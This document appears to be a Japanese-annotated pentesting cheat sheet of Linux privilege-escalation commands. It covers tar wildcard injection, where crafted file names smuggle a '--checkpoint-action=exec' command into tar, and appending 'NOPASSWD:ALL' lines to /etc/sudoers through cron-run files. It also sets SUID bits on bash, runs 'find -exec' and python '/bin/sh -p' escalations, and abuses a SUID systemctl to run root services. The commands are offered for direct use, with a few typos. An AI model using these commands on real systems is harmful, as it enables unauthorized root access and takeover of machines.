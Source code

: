 # WildCard Injection

## sudoers

``` shell
    echo 'echo "vuln ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > <cronに使用されているファイル>
```

## wiledcard injection

``` shell
    #tar .... /*を利用
    #tarの圧縮ディレクトリで実行
    echo '#!/bin/bash\ncmod +s /bin/bash' > shell.sh
    #または
    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
    #もしくはこれでもいい。
    echo 'echo "kali ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > shell.sh
    # exec=のあとに任意のコマンドを実行できる
    echo "" > "--checkpoint-action=exec= sh shell.sh"
    echo "" > --checkpoint=1
    # 攻撃側の端末で実行するとrootが取れる
    /bin/bash -p
```

## findで権限昇格

``` shell
    find / -type f -perm -u=s 2/dev/null

    find . -exec /bin/bash -p \; -quit
```

## pythonで権限昇格

``` shell
    python -c 'import os;os.system("/bin/sh -p")'
```

## SUID

``` shell
    #install -mでモード指定
    sudo install -m =xs $(which systemctl) .
    #serviceの作成
    TF=$(mktemp).service
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "id > /tmp/output"
    [Install]
    WantedBy=multi-user.target' > $TF
    #リンクの生成
    ./systemctl link $TF
    #サービスの有効化
    ./systemctl enable --now $TF
```

